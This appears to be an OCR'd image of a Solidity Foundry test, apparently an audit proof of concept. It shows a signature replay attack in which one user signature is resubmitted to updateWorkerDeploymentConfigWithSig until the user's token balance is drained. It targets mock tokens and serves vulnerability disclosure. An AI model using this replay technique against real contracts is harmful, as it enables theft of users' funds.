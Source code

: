 ```solidity
    /**
     * @notice POC for signature replay vulnerability
     * Shows how a single attacker can repeatedly replay the same signature to drain all user funds
     */
    function test_signatureReplayVulnerability() public {
        // 1. Setup - Create agent with user as owner
        bytes32 requestId = setupUserAgent();

        // 2. User signs an update message (just once)
        bytes memory signature = createUserSignature("updated config data");

        // 3. Fund user with tokens and approve spending
        vm.startPrank(userAddress);
        mockToken.mint(userAddress, TOKEN_AMOUNT);
        mockToken.approve(address(blueprint), TOKEN_AMOUNT);
        vm.stopPrank();

        // Record initial balance
        uint256 initialBalance = mockToken.balanceOf(userAddress);
        console.log(
            "Initial user balance: %d tokens",
            initialBalance / 10 ** 18
        );

        // 4. ATTACK: Attacker repeatedly replays the same signature
        vm.startPrank(attacker);
        console.log("Attacker address: %s", vm.toString(attacker));

        for (uint i = 1; i <= NUM_REPLAYS; i++) {
            console.log("Replay #%d", i);

            // The core vulnerability: replay the SAME signature multiple times
            blueprint.updateWorkerDeploymentConfigWithSig(
                address(mockToken),
                projectId,
                requestId,
                "updated config data",
                signature
            );

            // Verify tokens were lost
            uint256 currentBalance = mockToken.balanceOf(userAddress);
            console.log(
                "User balance after replay #%d: %d tokens",
                i,
                currentBalance / 10 ** 18
            );
        }
        vm.stopPrank();

        // Verify complete drainage
        uint256 finalBalance = mockToken.balanceOf(userAddress);
        assertEq(
            finalBalance,
            0,
            "User's account should be completely drained after all replays"
        );

        // Show total damage
        console.log("------------------------------------");
        console.log("PROOF OF CONCEPT SUMMARY:");
        console.log("Initial balance: %d tokens", initialBalance / 10 ** 18);
        console.log("Final balance: %d tokens", finalBalance / 10 ** 18);
```